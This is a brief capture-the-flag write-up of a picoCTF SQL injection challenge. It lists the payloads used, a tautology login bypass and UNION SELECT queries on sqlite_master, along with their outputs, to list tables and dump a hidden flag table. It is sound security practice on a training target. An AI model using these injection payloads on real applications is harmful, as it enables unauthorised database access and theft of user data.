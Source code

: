 # URL
https://play.picoctf.org/practice/challenge/504?originalEvent=75&page=1

# Challenge
There are various endpoints vulnerable to SQL Injection. You only need to exploit one of them

# Work
* Looked around the website and explored the /challenge#
* using the payload the website provided -> ' OR 1=1 -- /challenge2 returned admin so I know it works
* testing other payloads given from the website the following results were obtained: 
```
Output: [('flags',), ('users',)]
Output: [('CREATE TABLE users \n (id INTEGER PRIMARY KEY, username TEXT, password TEXT)',)]
Output: [('CREATE TABLE flags\n (id INTEGER PRIMARY KEY, flag TEXT)',)]
```
* ' UNION SELECT NULL, NULL, tbl_name FROM sqlite_master WHERE type='table' -- on /challenge2 
```Output: [(None, None, 'hidden_flags'), (None, None, 'inventory')]```
* Dump the flag: ``` ' UNION SELECT NULL, NULL, flag FROM hidden_flags --```
* picoCTF{_}

